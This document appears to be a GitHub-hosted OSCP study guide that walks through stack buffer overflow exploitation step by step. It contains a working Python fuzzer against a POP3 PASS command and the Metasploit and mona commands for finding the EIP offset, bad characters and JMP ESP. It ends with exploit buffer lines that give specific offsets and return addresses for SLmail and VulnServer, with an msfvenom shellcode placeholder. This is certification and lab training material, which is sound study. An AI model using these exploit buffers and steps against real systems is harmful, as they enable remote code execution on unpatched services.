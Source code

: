 # Buffer Overflow Steps for OSCP
## High Level Steps
Buffer overflows will start with an entry point, usually a PoC buffer overflow which causes a crash with not remote code execution. Given this follow the steps below. Each iteration below requires crashing the service each time with immunity attached.
1) [Fuzz the service to replicate the crash in python](#fuzzing)
2) [Create a stand alone crash script](#create-standalone-crash-script)
3) [Find the offset of the EIP overwrite](#find-the-offset-of-the-eip-overrite)
4) [Target and overwrite the EIP](#target-and-overwrite-the-eip)
5) [Find the bad chars for this application](#find-the-bad-chars-for-this-application)
6) [Find code to jump to ESP](#find-code-to-jump-to-esp)
7) [Set a breakpoint on the jump to make sure it works](#set-a-breakpoint-on-the-jump-to-make-sure-it-works)
8) [Generate a payload with MSF and add some no-ops before it](#generate-a-payload-with-msf-and-add-some-no-ops-before-it)
## Fuzzing
Iterate over chunks of data to find a ball park for where the crash is.

Sample Fuzzer
```python

import socket
buff = ["A"]
counter = 100

while( len(buff) <= 30 ):
	buff.append("A"*counter)
	counter=counter + 200
for string in buff:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		print("Fuzzing PASS with {} bytes ".format(len(string)))
		s.connect(("10.11.11.42", 110))
		data = s.recv(1024)
		print (data)

		s.send('USER test\r\n')
		data = s.recv(1024)
		print(data)

		s.send('PASS ' + string + '\r\n')
		data = s.recv(1024)
		print(data)

		s.send('QUIT\r\n')

		s.close()
		print("Done")
	except Exception as e:
		print("could not connect to pop 3 because {}".format(e))
```

## Create Standalone Crash Script
Remove the fuzzing from the script and just send the chunk of A's which cause the crash

## Find the offset of the EIP overwrite
Generate a pattern the same length of the A's sent in and make that the payload.
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGTH>
```
Make this the payload and resend to the application. Once it's crashed, use mona to find the pattern offset.
```
!mona findmsp
```

## Target and overwrite the EIP
Overrite the EIP with 'B' by changing the payload to
```python
payload = "A"*find_msp_offset+"B"*4+"C"*remaining_length
```

## Find the bad chars for this application
Use mona and the crash script to find these. If the application is netascii (telnet, ftp, smtp, ect), then there are 3 off the bat, "\x00\x0a\x0d".

```python
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

Remove 0x00,0x0A,0x0D if netascii from the list

Send to the exploit up and wait for the crash

Use mona to find the bad chars.

Generate the local bad chars compare file
```
!mona config -set workingfolder c:\logs\%p
!mona bytearray
```
if netascii, do,
```
!mona bytearray -epb "\x00\x0a\x0d"
``` 

Run mona to find bad chars. Get the address in the ESP.
```
!mona compare -f C:\logs\<app-name>\bytearray.bin -a <address-in-esp>
```

Once a bad char is found, remove from the payload in the python code, regenerate the bytearray in mona and reexploit until the buffers match.

Regenerate byte code without 0xef
```
!mona bytearray -epb "\xef"
```

## Find code to jump to ESP
Find characters with decodes to op codes to in Non-DEP Non-ASLR modules in the code

```
!mona jmp -r esp
```
or
```
!mona find -s “\xff\xe4” 
```

Can search in a specific non-aslr'd module via this:

```
!mona find -s “\xff\xe4” -m <module>
```

## Set a breakpoint on the jump to make sure it works
Set a breakpoint on the jump location to make sure the overwrite of the EIP is correct. 

In immunity, set a break point by navigating to the module section and jumping to the location.

1) window -> modules
2) Select module jump code is in
3) CTRL+G, then type in address
4) Right click on code segment and select "Toggle Breakpoint"
5) May have to select decompile / decode from the context menu to see it as op-codes.

## Generate a payload with MSF and add some no-ops before it
Generate the payload with MSFVenom. Make sure the bad chars are specified as well. When adding to the exploit code, append some no-ops. If the exploit isn't working, e.g. the application is still crashing in immunity keep adding no-ops.

```python
# SLmail
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + buf

# VulnServer
req1 = "AUTH " + "A"*1040 + "\x71\x1d\xd1\x65" + "\x90" * 32 + buf
```

## References

Using Immunity

http://www.fuzzysecurity.com/tutorials/expDev/2.html

Finding Bad Chars

https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
